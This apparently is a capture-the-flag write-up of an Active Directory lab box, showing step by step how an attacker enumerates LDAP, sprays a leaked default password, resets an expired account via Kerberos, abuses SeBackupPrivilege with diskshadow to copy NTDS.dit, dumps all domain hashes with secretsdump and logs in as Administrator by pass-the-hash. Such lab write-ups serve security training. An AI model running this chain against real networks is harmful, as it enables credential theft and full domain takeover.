

## NMAP Port Scan
Starting off with an NMAP Scan:
```bash
nmap -sS -sV -A --min-rate 2500 10.10.106.67
```

From the scan we are able to identify that this is a Domain Controller due to the services running such as LDAP & Kerberos. The scan also produces 2 DNS:
- BabyDC.baby.vl
- baby.vl

We can add this to our /etc/hosts file:
```bash
sudo nano /etc/hosts
```


## Discovery of a password via LDAP
As LDAP was running on port 389, it is important to identify the naming context for further usage:
```bash
ldapsearch -H ldap://baby.vl -x -s base namingcontexts 
```

Following the output, the part we are interested in is:
```bash
namingcontexts: DC=baby,DC=vl
```

We can use the naming context to craft further ldapsearch queries, such as searching for users:
```bash
ldapsearch -H ldap://baby.vl -x -b "DC=baby,DC=vl" '(objectClass=Person)' sAMAccountName description
```
```bash
# Guest, Users, baby.vl
dn: CN=Guest,CN=Users,DC=baby,DC=vl
description: Built-in account for guest access to the computer/domain
sAMAccountName: Guest

# Jacqueline Barnett, dev, baby.vl
dn: CN=Jacqueline Barnett,OU=dev,DC=baby,DC=vl
sAMAccountName: Jacqueline.Barnett

# Ashley Webb, dev, baby.vl
dn: CN=Ashley Webb,OU=dev,DC=baby,DC=vl
sAMAccountName: Ashley.Webb

# Hugh George, dev, baby.vl
dn: CN=Hugh George,OU=dev,DC=baby,DC=vl
sAMAccountName: Hugh.George

# Leonard Dyer, dev, baby.vl
dn: CN=Leonard Dyer,OU=dev,DC=baby,DC=vl
sAMAccountName: Leonard.Dyer

# Connor Wilkinson, it, baby.vl
dn: CN=Connor Wilkinson,OU=it,DC=baby,DC=vl
sAMAccountName: Connor.Wilkinson

# Joseph Hughes, it, baby.vl
dn: CN=Joseph Hughes,OU=it,DC=baby,DC=vl
sAMAccountName: Joseph.Hughes

# Kerry Wilson, it, baby.vl
dn: CN=Kerry Wilson,OU=it,DC=baby,DC=vl
sAMAccountName: Kerry.Wilson

# Teresa Bell, it, baby.vl
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
description: Set initial password to BabyStart123!
sAMAccountName: Teresa.Bell

# Caroline Robinson, it, baby.vl
dn: CN=Caroline Robinson,OU=it,DC=baby,DC=vl
sAMAccountName: Caroline.Robinson
```
After the ldapsearch query, all found users were appended into a users.txt wordlist. One user stands out with a description containing a password:
```bash
dn: CN=Teresa Bell,OU=it,DC=baby,DC=vl
description: Set initial password to BabyStart123!
sAMAccountName: Teresa.Bell
```

## Password spraying the domain controller
During LDAP Enumeration, Teresa.Bell was found to have a password in the user description, claiming that it is an initial password. To test if this password is correct and if other user's still have the initial password set we can password spray the DC with crackmapexec:
```bash
crackmapexec smb BabyDC.baby.vl -u users.txt -p "BabyStart123\!" 
```

Caroline.Robinson appeared to still be using the password, however crackmapexec presented an error 'STATUS_PASSWORD_MUST_CHANGE'


## Resetting the password with kinit
After some research, I stumbled upon a blog post which you can find [here](https://www.n00py.io/2021/09/resetting-expired-passwords-remotely/), describing how AD accounts can have their passwords reset remotely using kerberos.

To start we have to edit the /etc/krb5.conf file:
```bash
[libdefaults]
        default_realm = BABY.VL
        dns_lookup_kdc = false
        dns_lookup_realm = false
<SNIP>

[realms]
        BABY.VL = {
            kdc = 10.10.106.67
            admin_server = 10.10.106.67
        }
<SNIP>

[domain_realm]
        .baby.vl = BABY.VL
```

Then we can send our requests using kinit to reset the password:
```bash
kinit -V Caroline.Robinson@BABY.VL
```


We changed the password had been changed to 'PwnBaby1234', to check that this went through correctly another crackmapexec smb logon request is made:
```bash
crackmapexec smb BabyDc.baby.vl -u "Caroline.Robinson" -p "PwnBaby1234" 
```


## Checking caroline's groups & permissions
With access to a user account, we can utilise bloodhound to map out potential attack paths:
```bash
bloodhound-python -u "Caroline.Robinson" -p "PwnBaby1234" -ns 10.10.106.67 -d baby.vl
```


BloodHound-Python automatically gathered domain info, computer info, group info, user info and placed it all into JSON files. Now we have to upload the JSON to the bloodhound interface to get a visually pleasing view of the information:


Following from the files being uploaded to the bloodhound web application, we are able to identify that Caroline is in the Backup Operators group:


The bloodhound output showcased that caroline is part of the remote management users group, meaning that it will be possible to Evil-WinRM into the machine using the credentials:
```bash
evil-winrm -i BabyDC.baby.vl -u "Caroline.Robinson" -p "PwnBaby1234"
```


Now that we have a shell as caroline, we can check the privileges to potentially dump credentials:
```bash
whoami /priv
```


The privilege that stands out is:
```bash
SeBackupPrivilege             Back up files and directories  Enabled
```


## Dumping domain credentials
Since we were able to identify that caroline is apart of the Backup Operators group & has SeBackupPrivilege enabled, the rest of the box should be relatively straight forward. We have to dump HKLM\System & NTDS.dit:
```bash
reg save hklm\system system.save
```


As we are not administrator yet, using vssadmin isn't going to work. Researching ways to dump NTDS.dit lead to the discovery of [this](https://github.com/ustayready/tradecraft/blob/master/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration.md) blog post. It describes how diskshadow can be used to copy the C:\ drive to eventually copy NTDS.dit.

First we have to create a text file:
```bash
set verbose on 
set metadata C:\temp\shadowdata.cab 
set context persistent 
add volume C: alias shadowdrive 
create 
expose %shadowdrive% z: 
```

Then upload the text file to our evil-winrm shell, make a new temp directory and execute diskshadow:
```bash
upload backup.txt
mkdir C:\temp
diskshadow /s backup.txt
```


We have to copy NTDS.dit from the newly created Z drive and then download both system.save and ntds.dit to our attacker machine:
```bash
robocopy /b z:\windows\ntds . ntds.dit
download system.save
download ntds.dit
```


Following from the download back to our attacker machine, we can utilise impacket-secretsdump to dump all domain credentials:
```bash
impacket-secretsdump -ntds ntds.dit -system system.save LOCAL
```


## Getting a shell as Administrator
The domain admin's NTLM has been dumped:
```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:ee4457ae59f1e3fbd764e33d9cef123d:::
```
We can now use evil-winrm pth to login:
```bash
evil-winrm -i BabyDc.baby.vl -u Administrator -H "ee4457ae59f1e3fbd764e33d9cef123d"
```

PWNED!
